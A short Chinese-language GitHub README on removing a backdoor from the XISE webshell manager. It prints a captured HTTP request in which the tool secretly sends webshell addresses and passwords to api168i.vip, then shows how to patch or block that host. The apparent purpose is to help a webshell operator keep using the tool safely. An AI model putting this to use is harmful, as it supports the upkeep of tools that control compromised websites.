 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除**

工具来源：https://webshell6.com/?id=4

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




POST /abc1.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://api168i.vip/abc1.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: api168i.vip
Cache-Control: no-cache

hm=http://xxxx/bak111.php||xise



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题


